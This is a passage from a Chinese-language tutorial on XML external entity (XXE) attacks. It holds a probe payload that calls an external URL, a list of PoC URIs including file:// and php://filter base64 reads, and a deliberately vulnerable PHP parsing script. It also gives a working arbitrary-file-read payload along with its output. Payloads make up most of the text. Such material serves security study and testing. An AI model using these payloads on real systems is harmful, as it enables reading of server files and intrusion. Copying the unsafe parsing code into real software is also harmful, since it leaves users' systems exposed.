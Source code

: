 <br>
## 是否支持外部实体
上面说了XXE的利用需要开启外部实体，可以利用`http://`请求来判断
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE c [
   <!ENTITY a SYSTEM "http://url/xxe">
]>
<c>&a;</c>
// 如果访问日志有该信息，那么说明能解析外部实体
```

<br><br>
# XXE利用姿势
xxe利用主要有：任意文件读取、远程命令执行、内网信息探测、DOS攻击等。

在接下来利用姿势中常用的POC：
```
file:///path/to/file.ext
http://url/file.ext
php://filter/read=convert.base64-encode/resource=conf.php
```


测试代码
```
<?php
  $xml=file_get_contents("php://input");
  $data = simplexml_load_string($xml) ;
  echo "<pre>" ;
  print_r($data) ;//注释掉该语句即为无回显的情况
?>
```

<br>
## 任意文件读取

### 显式 XXE
在有回显情况下，直接利用file等协议去读取即可。
```
// Payload
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
  <!ENTITY xxe SYSTEM "file:///d:/test.txt">
]>
<xxe>&xxe;</xxe>


// Result
SimpleXMLElement Object
(
    [xxe] => SimpleXMLElement Object
        (
            [xxe] => hello world
        )

)
```
